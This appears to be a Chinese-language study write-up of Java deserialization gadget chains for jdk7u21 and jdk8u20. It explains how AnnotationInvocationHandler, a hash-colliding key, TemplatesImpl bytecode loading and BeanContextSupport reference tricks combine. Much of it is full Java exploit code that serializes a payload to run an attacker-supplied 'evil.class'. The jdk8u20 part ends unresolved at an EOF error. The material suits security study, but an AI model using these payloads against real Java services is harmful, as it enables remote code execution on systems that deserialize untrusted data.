### jdk7u21

不需要任何依赖，只依靠 jdk7u21 源码，调用栈如下


核心在于 AnnotationInvocationHandler 类的 equalsImpl 方法，这里会判断 var1 是不是 proxy 实例，如果不是则返回空，继而进入下面的 else 分支，这个 else 分支会触发任意方法调用，var5 是遍历获取当前实例的方法，因此这里会触发一个对象的任意方法，如果该对象是 templatesImpl 类，则会触发到其中的 getOutputProperties 方法，打恶意字节码加载。



因此我们先配置好一个恶意 templatesImpl 实例，如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class jdk7u21 {
    public static void main(String[] args)throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);

    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("111.bin"));
        out.writeObject(obj);
    }
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));
        Object obj=in.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
}
```

接下来找如何会调用 AnnotationInvocationHandler 类的 invoke 方法，因为该类实现了 InvocationHandler 接口的 invoke 方法，因此当调用代理对象的方法时就会触发该 invoke 方法，并且调用的是 equals 方法，且只有一个 Object 类型的参数，才能调用 equalsImpl(var3[0]) 方法。


要调用 equals 方法，可以通过 hashMap 的 put 方法，如果 map.put(k,v) k 的 hash 与 Map 中的对象的 hash 相同，则会触发 key2.equals(key1)，因为 equalsImpl 中反射调用的是 key1 的任意方法，所以 hashmap 第一个放入的必须是 TemplatesImpl 对象，第二个放入 proxy。



触发到 代理对象的 equals 方法，进而走到 AnnotationInvocationHandler 类的 invoke 方法，然后就是要想让两个对象的 hash 相同，其中一个是 templatesImpl 对象，它的 hashcode 不可预测，另外一个是 proxy 代理对象的 hashcode ，可以看到如果调用 代理对象的 hashcode 会进入 AnnotationInvocationHandler 类实现的一个方法


这里可以看到对 menerValues 的键和值进行异或计算并返回，看网上的文章使用一个 hashcode 计算后为 0 的字符串作为键，这样异或得到的就是值本身的 hashcode 值。

因此值应该填入构造的 TemplatesImpl 对象，exp 如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class jdk7u21 {
    public static void main(String[] args)throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("D:\tools_D\java\java_learn\rome\src\main\java\evil.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);
        
        HashMap map1 = new HashMap();
        map1.put("f5a5a608",templatesImpl);

        Class clz=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor c = clz.getDeclaredConstructor(Class.class, Map.class);
        c.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) c.newInstance(Templates.class, map1);
        Templates proxy = (Templates) Proxy.newProxyInstance(templatesImpl.getClass().getClassLoader(), templatesImpl.getClass().getInterfaces(), invocationHandler);

        HashMap map2 = new HashMap();
        map2.put(proxy,1);
        map2.put(templatesImpl,1);

        serilize(map2);
        deserilize("1.bin");
    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("1.bin"));
        out.writeObject(obj);
    }
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));
        Object obj=in.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }


}
```

也可以使用 hsts 类保证 hash 值相同，但是需要引入新的依赖.

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```


### jdk8u20


当一个类重写了 readObject 方法，默认的反序列化引擎将控制权转交给该方法，然后通过 defaultReadObject 方法还原字节流中非静态，非 transient 的字段，然后才是自主决定反序列化什么字节的代码实现。当反序列化到字段的值时，遇到对象引用，会先反序列化这个对象，才会接着主线（深度优先类似），反序列化 Fields Values 之后接着就是 objectAnnotation (附加数据，例如 hashmap set arraylist 的数据在这个区域)。

对比 jdk7u21 中 AnnotationInvocationHandler 类的 readObject 方法，jdk8u20 中发现类型不匹配会抛出错误



jdk7u21 则是直接 return



throw error 和 return 或者其余解决方式的区别

```java
try {
    try {
    	data A
    }
    catch (Exception e) {
    	System.pit.println("内层 try 块出错");
    }
    data B
}
catch (Exception e) {
	throw e;
}
data c
```

如果 data A 代码块运行时出错，data B 仍然会被执行，因为错误没被抛出，不会终止整个程序运行，data B 代码块出错则会抛出问题，终止运行，data C 不被执行。

```java
try {
    try {
    	data A
    }
    catch (Exception e) {
    	throw e;
    }
    data B
}
catch (Exception e) {
	System.pit.println("外层 try 块出错");
}
data c
```

data A 报错抛出问题，则 data B 不会被执行，最外层的 try-catch 块捕获内层 try-catch 块抛出的问题，直接打印 外层 try 块出错，然后执行 data C

java 中 try-catch 块遇到问题应该抛出错误，而不是直接 return 丢弃错误。

这里使用 BeanContextSupport 类，因为其重写 readObject 方法，并且有一层 try-catch 这里直接 continue 不会导致最外面 AnnotationInvocationHandler 那层 try-catch 报错抛出。



到这解决了报错抛出的问题，exp 如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class jdk8u20 {
    public static void main(String[] args)throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\rome\\src\\main\\java\\evil.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);

        HashMap hashMap = new HashMap();
        hashMap.put("f5a5a608",templatesImpl);

        Class clz=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor c = clz.getDeclaredConstructor(Class.class, Map.class);
        c.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) c.newInstance(Templates.class, hashMap);
        Templates proxy = (Templates) Proxy.newProxyInstance(templatesImpl.getClass().getClassLoader(), templatesImpl.getClass().getInterfaces(), handler);

        BeanContextSupport b = new BeanContextSupport();
        setFieldValue(b,"serializable",1);
        
        HashMap map2 = new HashMap();
        map2.put(handler,1);
        setFieldValue(b,"children",map2);

        LinkedHashSet set = new LinkedHashSet();
        set.add(b);
        set.add(templatesImpl);
        set.add(proxy);
        serilize(set);
//        deserilize("1.bin");
    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("./1.bin"));
        out.writeObject(obj);
    }
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));
        Object obj=in.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
}
```

序列化中的引用机制：

​		在序列化流程中，对象所属类、对象成员属性等数据都会被使用固定的语法写入到序列化数据，并且会被特定的方法读取；在序列化数据中，存在的对象有null、new objects、classes、arrays、strings、back  references等，这些对象在序列化结构中都有对应的描述信息，并且每一个写入字节流的对象都会被赋予引用 `Handle` （防止重复写入 Object 导致序列化数据膨胀以及引用过多），并且如果一个 object 被重复序列化，可以使用`TC_REFERENCE`结构，引用前面handle的值，引用`Handle`会从`0x7E0000`开始进行顺序赋值并且自动自增，一旦字节流发生了重置则该引用Handle会重新从`0x7E0000`开始。

​		在反序列化中，如果当前这个对象中的某个字段并没有在字节流中出现，则这些字段会使用类中定义的默认值，如果这个值出现在字节流中，但是并不属于该对象的成员属性，则抛弃该值，但是如果这个值是一个对象的话，那么会为这个值分配一个 Handle。

如果一个对象两次序列化，那么第二次序列化的时候会使用 TC_REFERENCE 和引用对象的 Handle 值



反序列化时会还原引用的对象。

如果重写 writeObject 方法，向字节流写入新的数据（object），在该序列化数据的 classdata 部分，还会多出个 objectAnnotation 部分




接着链子，我们要将有异常抛出的 AnnotationInvocationHandler 对象出入到无异常抛出的 BeanContextSupport 类中



这里反序列化 AnnotationInvocationHandler 对象，生成一个 Handler 值,然后内层 try 抛出错误被外层try continue，没有终止程序进行，后续再次反序列化 proxy 时引用这个，而不会被 AnnotationInvocationHandler 的 readObject 反序列化时抛出



然后遇到了 EOF 问题，定位问题代码处



目前的链子，反序列化 hashlinkset 然后还原 BeanContextSupport,发现它的 children 字段是 handler, 然后在 AnnotationInvocationHandler 中反序列化还原这个 handler 对象，然后判断类型进入 catch 分支抛出错误，然后一步步传递到 BeanContextSupport 中，continue. (后续就是没解决这个问题，一直不清楚指针运行到哪了)




